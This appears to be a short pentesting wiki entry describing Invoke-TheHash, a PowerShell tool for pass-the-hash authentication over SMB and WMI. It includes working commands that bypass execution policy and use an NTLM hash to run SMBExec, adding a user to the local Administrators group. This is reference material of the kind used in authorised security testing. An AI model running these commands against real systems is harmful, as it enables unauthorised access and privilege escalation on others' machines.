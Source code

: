 ```yaml
---
tags:
  - tool
---
```

# Invoke-TheHash

[Invoke-TheHash](https://github.com/Kevin-Robertson/Invoke-TheHash) contains PowerShell functions for performing pass the hash WMI and SMB tasks. WMI and SMB connections are accessed through the .NET TCPClient. Authentication is performed by passing an NTLM hash into the NTLMv2 authentication protocol. Local administrator privilege is not required client-side.

## Capabilities

```powershell
# Import-Module
Set-ExecutionPolicy Bypass -Scope Process -Force
Import-Module .\Invoke-TheHash.psm1

# Execute SMB Command to add the user Grace to the Administrator's group
Invoke-TheHash -Type SMBExec -Target localhost -Username Administrator -Hash $NTHASH -Command "net localgroup Administrators $USER /add"
```
